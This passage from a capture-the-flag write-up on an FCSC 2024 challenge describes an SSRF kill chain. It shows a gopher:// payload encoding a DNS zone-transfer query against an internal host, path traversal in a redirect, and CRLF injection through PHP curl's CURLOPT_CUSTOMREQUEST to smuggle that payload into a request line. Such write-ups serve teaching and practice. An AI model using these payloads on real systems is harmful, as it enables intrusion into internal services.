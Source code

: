 ```python
print(str(io.recvall(timeout=2))[2:-1].replace('\\n', '\n'))	
```

*Output*
```bash
HTTP/1.1 301 Moved Permanently\r
Server: TornadoServer/6.4\r
Content-Type: text/html; charset=UTF-8\r
Date: Fri, 12 Apr 2024 13:48:10 GMT\r
Location: gopher://pong-internal-dns:53/_%004n%DB%00%20%00%01%00%00%00%00%00%01%08fcsc2024%02fr%00%00%FC%00%01%00%00%29%04%D0%00%00%00%00%00%0C%00%0A%00%08I%B8%29%3C05P%8A#/../../../../public/js/\r
Content-Length: 0\r
Connection: close\r
\r
```

### Last step

Now that we have the last element of our Kill-Chain, we need to find a way to send the following request to the python backend via curl : 

```
GET gopher://pong-internal-dns:53/_< ..axfr ..>#/../../../../public/js HTTP/1.1
Host: localhost:5000
Accept: */*
Connection: close
```

However, by default, curl has a ``/`` as its default query path.
So the following query: 

```php
<?php

$ch = curl_init();
$options = [CURLOPT_URL => "http://127.0.0.1:5000"];
curl_setopt_array($ch, $options);
curl_exec($ch);
```

will perform a query of the form: 
```bash
GET / HTTP/1.1\r
...
```

This is a problem here, as we want our sent path to start with ``gopher://...``.  

To solve this last problem, we'll use the CUrl **CURLOPT_CUSTOMREQUEST** option.  

According to the documentation, this parameter is used to redefine the method used during the http request:  
- *get*,*post*,*put*,*option*,*path* ...  

Making the link with *CRLF* injections presented earlier, we can define the method as:  
```
GET gopher://<..payload..> HTTP/1.1\r\nX-foo:
```


[//]: <> (Wrote By Vozec 12/04/2024)